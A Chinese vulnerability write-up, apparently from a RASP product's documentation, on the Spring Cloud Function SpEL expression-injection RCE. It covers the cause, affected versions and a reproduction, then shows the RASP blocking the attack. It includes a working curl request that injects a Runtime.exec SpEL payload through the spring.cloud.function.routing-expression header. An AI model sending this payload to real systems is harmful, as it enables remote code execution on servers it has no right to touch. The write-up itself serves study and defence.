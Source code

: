 # Spring Cloud Function 表达式注入漏洞

## 漏洞简介
SpringCloudFunction是一个SpringBoot开发的Servless中间件（FAAS），支持基于SpEL的函数式动态路由。在特定配置下，存在SpEL表达式执行导致的RCE。

## 影响版本

3 <= 版本 <= 3.2.2（ commit dc5128b) 之前

## 漏洞原理

在 main 分支commit dc5128b（https://github.com/spring-cloud/spring-cloud-function/commit/dc5128b80c6c04232a081458f637c81a64fa9b52）中，新增了 SimpleEvaluationContext

![img_1.png](../.vuepress/public/images/case/Spring-Cloud-Function/code-diff.png)

同样的，官方测试用例已经清楚地写明了漏洞位置与Payload：

![img.png](../.vuepress/public/images/case/Spring-Cloud-Function/rce-demo-test.png)

提取出测试类后在apply方法下断并跟入，省略一些中间流程，最终可以看到从HTTP头spring.cloud.function.routing-expression 中取出SpEL表达式并由 StandardEvaluationContext 解析。

## 漏洞复现

### 改造官方提供的sample来复现漏洞（切换tag v3.2.1）

![img.png](../.vuepress/public/images/case/Spring-Cloud-Function/function-example.png)

### 启动 java 进程，并开启动态注入：

![img_1.png](../.vuepress/public/images/case/Spring-Cloud-Function/img_1.png)

![img_2.png](../.vuepress/public/images/case/Spring-Cloud-Function/img_2.png)

### 发送攻击请求
```shell
curl --location --request POST 'http://49.235.111.228:8080/functionRouter' \
--header 'spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("open /Applications/QQ.app")' \
--header 'Content-Type: text/plain' \
--data 'Hello'
```
## RASP防护

请求被阻断：
![img_3.png](../.vuepress/public/images/case/Spring-Cloud-Function/img_3.png)

### 查看攻击详情

攻击信息：
![img_4.png](../.vuepress/public/images/case/Spring-Cloud-Function/img_4.png)

攻击详情：
![img_5.png](../.vuepress/public/images/case/Spring-Cloud-Function/img_5.png)

调用栈：
![img_6.png](../.vuepress/public/images/case/Spring-Cloud-Function/img_6.png)

请求附带信息：

![img_7.png](../.vuepress/public/images/case/Spring-Cloud-Function/img_7.png)


